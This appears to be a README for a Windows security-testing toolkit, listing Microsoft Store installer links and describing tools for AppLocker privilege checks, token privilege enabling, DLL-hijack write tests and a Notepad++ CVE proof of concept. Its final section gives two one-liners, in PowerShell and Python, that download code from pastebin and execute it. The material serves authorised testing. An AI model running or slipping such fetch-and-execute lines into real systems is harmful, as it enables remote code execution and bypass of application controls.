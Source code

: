 
### Copies of bins for download 

The Python Embeddable 3.11.0 for the .tar
https://www.python.org/downloads/windows/


##### DD Deeplinks for the MS store rollback
ESRB [E] Everyone ratings will work in most cases - however ESRB Teen [T] and other ratings may be restricted.  
Most social media type apps will be Teen [T]  

[E] [x64dbg] - https://get.microsoft.com/installer/download/9PGJGD53TN86  
[E] [Python3.11] - https://get.microsoft.com/installer/download/9NRWMJP3717K  
[E] [Microsoft PowerToys] - https://get.microsoft.com/installer/download/XP89DCGQ3K6VLD  
[3] [PowerShell 7] - https://get.microsoft.com/installer/download/9MZ1SNWT0N5D  
[3] [PowerShell Preview] - https://get.microsoft.com/installer/download/9P95ZZKTNRN4  
[T] [TikTok - PSPF restricted] - https://get.microsoft.com/installer/download/9NH2GPH4JZS4  
[3] [DevToys] - https://get.microsoft.com/installer/download/9PGCV4V3BK4W
[E] [Windows App] - https://get.microsoft.com/installer/download/9N1F85V9T8BN
[E] [Splastop Business] - https://get.microsoft.com/installer/download/9NKVM63J25PB
[E] [RealVNC Viewer] - https://get.microsoft.com/installer/download/XP99DVCPGKTXNJ

#### Details
- The `1package.tar` and `2package.tar` are the Prowler `.whl` files for Python portable install
- The `Certify.exe` is what it says
- The `.Appx` are for the MS Store and `1b765123-a5ce-4bd0-9c0f-9b0b8cc76095` is the store
- The `SoAudit.exe` is the auditing tool, Alpha release only so far
- The `TokenPriv.ps1` is for Admin use to enable different privs in the session as needed
- The `gpg-debs.tar` is the set of deb files for installing gpg on minimal Kali, required when apt is not keyed yet
- `odapplockprivs.exe` is for default AppLocker paths checking for any wild files with privs for Everyone user
- `fulloddapplockerprivs.exe` is a full user group check in AppLocker paths for privs - users are; Everyone, Users, Authenticated Users and Guests
- `Processhacker` is the official binary
- `python` is the official embed 3.11.0 release
- `regsvr32.c` and the related `.exe` is a source code for poc testing the NoptePad++ CVE from 2025
- `scriptfile2.js` is a write test, check comments in the file
- `whl.ps1` is a helper file to unpack `.whl` files to a location - specifically the .tar files `1package.tar` and `2package.tar` but can be for any large `.whl` sets obv. 
- `JackWrite.dll` is a file write test for missing .dlls
- `JackWriteExe.exe` is a file write test for missing .exes

### String POCs

IEX Calc POC
```iex ((Invoke-WebRequest 'https://pastebin.com/raw/Gnb4K1Qq').Content)```

Subprocess Calc POC
```import urllib.request
url = "https://pastebin.com/raw/kFzy7JT5"
response = urllib.request.urlopen(url)
code = response.read().decode()
exec(code)
